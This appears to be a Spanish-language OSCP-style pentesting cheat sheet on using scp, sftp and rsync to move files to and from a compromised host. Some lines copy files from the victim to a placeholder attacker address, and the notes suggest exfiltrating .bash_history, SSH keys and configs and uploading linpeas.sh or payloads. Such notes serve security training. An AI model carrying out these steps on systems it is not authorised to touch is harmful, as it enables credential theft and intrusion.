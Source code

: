 Tras comprometer un sistema, estas herramientas permiten transferir archivos hacia o desde el host de forma segura (usando SSH), ideal para exfiltración de datos, subida de binarios, o mover scripts entre máquinas.

---

## 1. `scp` — Secure Copy

Transferencia directa de archivos sobre SSH.

### Enviar archivo desde máquina comprometida a tu equipo:
```bash
scp archivo.txt tu_usuario@tu_ip:/ruta/destino/
```

### Descargar archivo desde tu máquina a la comprometida:
```bash
scp tu_usuario@tu_ip:/ruta/archivo.txt ./
```

### Parámetros útiles:
- `-P`: puerto SSH custom
- `-r`: transferencia recursiva de directorios

---

## 2. `sftp` — Secure FTP (por SSH)

Sesión interactiva de FTP seguro.

### Conectarse:
```bash
sftp usuario@ip
```

### Comandos útiles dentro de la sesión:
```bash
ls                 # listar
cd /ruta           # cambiar dir remoto
lcd /ruta/local    # cambiar dir local
get archivo        # descargar
put archivo        # subir
```

Salir con `exit` o `bye`.

---

## 3. `rsync` — Sincronización remota eficiente

Permite transferencias incrementales, ideal para carpetas grandes o backups.

### Subir contenido:
```bash
rsync -avz archivo usuario@ip:/ruta/remota/
```

### Descargar desde host remoto:
```bash
rsync -avz usuario@ip:/ruta/archivo ./
```

Parámetros comunes:
- `-a`: modo archivo (preserva permisos)
- `-v`: verbose
- `-z`: compresión durante la transferencia
- `--progress`: ver progreso en tiempo real

---

## Requisitos
- SSH habilitado y accesible en la máquina víctima
- Usuario y contraseña válidos, o acceso con clave privada
- Puerto abierto (por defecto 22)

---

## Uso OSCP-style
- Exfiltrar `.bash_history`, `.ssh/`, backups, configuraciones
- Subir `linpeas.sh`, binarios SUID, scripts o payloads
- Operar sin necesidad de montar servidores externos (HTTP/FTP)

---
